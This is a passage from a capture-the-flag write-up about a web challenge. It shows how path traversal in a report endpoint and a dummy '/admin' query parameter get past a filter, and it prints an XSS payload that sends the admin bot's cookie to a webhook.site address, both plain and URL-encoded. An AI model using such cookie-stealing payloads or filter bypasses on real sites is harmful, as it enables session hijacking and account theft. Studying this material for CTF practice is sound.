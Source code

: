 One very convenient thing is that if you decide to insert an unused query parameter in the request, it will simply be sent to the server and not used. This means that you can send a completely random parameter with the value `/admin` to skip any kind of sanitization without having to modify the payload in some convoluted way.

So, if before in the reporting phase you sent `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, now you can send something similar to `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`.

Note how I had to use one `/admin` to bypass the filter when communicating with the bot and another to bypass the filter when tricking the bot into performing a search in the related endpoint.

Of course, starting such a chain (?) means properly handling URL encoding to ensure that the parameters are correctly spread between the POST made to the report endpoint (to which the parameters `id` and `message` will be sent) and the request made by the bot to the search endpoint (to which the necessary parameter `search` and the dummy parameter `lol` will be sent).

Once the URL encoding is correctly applied, the result should be this: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`.

Since it's not excluded by the filter, it will be necessary to bypass the filter also in the report endpoint. To do this, simply add any query parameter with the value `/admin` or `'/admin'` in the report URL. In Burp Suite, the final payload will be:

![Final payload without length filter](./media/img/PayloadNoLenght.png)

By doing this, you should again get the flag on the webhook as before. Now there's one last obstacle to overcome...

#### Last Step: Length Filter Bypass
This step didn't require any rocket science. Let's say I simply aimed to find the shortest possible payload with the same philosophy as the previous ones. For completeness, I'll add a subsection with the various things I tried during the competition.
